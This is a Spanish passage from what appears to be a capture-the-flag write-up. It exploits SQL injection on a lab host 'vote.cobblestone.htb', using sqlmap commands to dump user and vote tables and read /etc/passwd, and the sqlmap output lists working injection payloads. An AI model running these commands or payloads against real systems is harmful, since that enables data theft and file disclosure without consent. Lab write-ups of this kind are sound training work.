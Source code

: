 Vemos que hay `2` tablas llamadas `users` y `votes`, vamos a ver la info de las `2`.

```shell
sqlmap -r req.txt --method=POST --batch -D vote -T votes --dump # Tabla votes
sqlmap -r req.txt --method=POST --batch -D vote -T users --dump # Tabla users
```

Pero no nos soltara informacion por alguna razon, ya que la informacion ahora mismo no tenemos, vamos a probar si pudieramos realizar un `RCE` desde esta vulnerabilidad de `SQLi`.

```shell
sqlmap -r req.txt --method=POST --batch --file-read="/etc/passwd"
```

Info:

```
        ___
       __H__                                                                                                                                                 
 ___ ___[)]_____ ___ ___  {1.9.8#stable}                                                                                                                     
|_ -| . ["]     | .'| . |                                                                                                                                    
|___|_  ["]_|_|_|__,|  _|                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                 

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:54:54 /2025-10-07/

[10:54:54] [INFO] parsing HTTP request from 'req.txt'
[10:54:54] [INFO] resuming back-end DBMS 'mysql' 
[10:54:54] [INFO] testing connection to the target URL
got a 302 redirect to 'http://vote.cobblestone.htb/details.php?id=305'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: url (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: url=test' AND 7323=7323 AND 'XFOM'='XFOM

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: url=test' AND (SELECT 8033 FROM (SELECT(SLEEP(5)))DhKr) AND 'GzyX'='GzyX

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: url=-1513' UNION ALL SELECT NULL,CONCAT(0x7170707871,0x6669756b4d6c7a584d47634b75644e6f42454c76497a58454243665064464a596a4c7758416f4676,0x716b6a7171),NULL,NULL,NULL-- -
---
[10:54:54] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[10:54:54] [INFO] fingerprinting the back-end DBMS operating system
[10:54:54] [INFO] the back-end DBMS operating system is Linux
[10:54:54] [INFO] fetching file: '/etc/passwd'
do you want confirmation that the remote file '/etc/passwd' has been successfully downloaded from the back-end DBMS file system? [Y/n] Y
```